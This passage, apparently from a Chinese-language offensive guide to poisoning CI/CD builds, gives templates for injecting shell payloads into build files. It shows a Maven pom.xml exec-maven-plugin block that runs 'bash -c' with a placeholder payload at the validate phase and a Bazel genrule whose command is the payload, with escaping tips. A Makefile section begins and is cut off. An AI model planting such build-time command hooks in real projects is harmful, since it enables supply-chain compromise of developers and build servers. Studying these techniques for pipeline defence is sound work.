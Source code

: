 > 如果您要定位的`pom.xml`文件已经包含了一个`<plugins>`指令，那么只需在其下添加另一个`<plugin>`节点。
> 如果**不**包含`<plugins>`节点，则在`<build>`节点下添加它。

注意：请记住，您的有效负载插入在一个XML文档中——必须转义XML特殊字符。

```xml
<build>
   <plugins>
           <plugin>
               <groupId>org.codehaus.mojo</groupId>
               <artifactId>exec-maven-plugin</artifactId>
               <version>1.6.0</version>
               <executions>
                   <execution>
                        <id>run-script</id>
                       <phase>validate</phase>
                       <goals>
                            <goal>exec</goal>
                        </goals>
                    </execution>
                </executions>
               <configuration>
                   <executable>bash</executable>
                   <arguments>
                       <argument>
                            -c
                        </argument>
                       <argument>{XML-Escaped-Payload}</argument>
                    </arguments>
                </configuration>
            </plugin>
    </plugins>
</build>
```

### BUILD.bazel

> 用以下有效负载替换`BUILD.bazel`的内容

注意：`BUILD.bazel`需要转义反斜杠。
在有效负载内部，将任何`\`替换为`\\`。

```shell
genrule(
    name = "build",
    outs = ["foo"],
    cmd = "{Escaped-Shell-Payload}",
    visibility = ["//visibility:public"],
)
```

### Makefile

> Make文件通常由`C`、`C++`或`Go`项目（但不限于这些）的构建管道执行。
> 执行`Makefile`的工具有几个，最常见的是`GNU Make`和`Make`。
> 用以下有效负载替换目标`Makefile`
